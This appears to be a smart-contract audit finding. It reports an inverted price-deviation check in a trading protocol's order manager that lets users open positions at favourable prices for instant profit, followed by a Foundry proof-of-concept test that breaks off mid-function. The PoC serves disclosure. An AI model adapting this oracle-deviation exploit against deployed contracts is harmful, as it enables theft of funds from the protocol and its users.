###  Description:
`diffBps > availableMarkets[_marketId].allowedPriceDeviation` is implemented incorrectly
In a case where `diffBps > allowedPriceDeviation` we give users more favorable prices instead of less favorable prices.

This goes against the core principles of the system when this scenario happens it allows users to create an order that will be in an instant profit.

```
PoC

function test_Wrongs_Price() public {
        uint256 collateralAmount = 10 ether;
        uint256 currentMarketPrice = 3000;
        uint256 currentMarketPrice2 = 3040;
        bool isLong = true;
        uint256 initialBalance = 10 ether;

        uint256 marketMaxLeverage = orderManager.getMarket(ETH_MARKET_ID).maxLeverage;
        uint256 orderSize = collateralAmount + 1 ether;
        uint256 openingFeeAmount = orderSize * DEFAULT_OPENING_FEE / MAX_FEE;

        collateralAmount += openingFeeAmount;

        // NOTE You will have to comment out the line updatePriceChainlink(chainlinkEthFeed, price);  
        // line in function _settleorder
        updatePythPrice(pythAddress, PYTH_PRICE_ID_ETH, currentMarketPrice);

        // Price of chainlink deviates from by 40 
        updatePriceChainlink(chainlinkEthFeed, currentMarketPrice2);

        deal(WETH, TRADER_1, collateralAmount);

        bytes32 orderId = orderManager.getOrderId(ETH_MARKET_ID, ethVaultAddress, TRADER_1, !isLong, 0);

        OrderDS.Order memory orderStruct = OrderDS.Order({
            orderId: orderId,
            marketId: ETH_MARKET_ID,
            userAddress: TRADER_1,
            orderType: OrderDS.OrderType.OPEN_NEW_POSITION,
            isLong: false,
            isLimitOrder: false,
            deadline: 0,
            collateralAmount: collateralAmount,
            orderSize: orderSize,
            expectedPrice: 0,
            maxSlippage: DEFAULT_TRADE_SLIPPAGE
        });

        vm.startPrank(TRADER_1);
        ERC20(WETH).approve(address(orderManager), collateralAmount);

        orderManager.createOrder(orderStruct, address(0));

        vm.stopPrank();

        // TRADER_1s Short gets filled at 3040
        _settleOrder(orderId,currentMarketPrice);

        skip(1);
        // Price deviates stops and goes back to 3000
        updatePythPrice(pythAddress, PYTH_PRICE_ID_ETH, currentMarketPrice);
```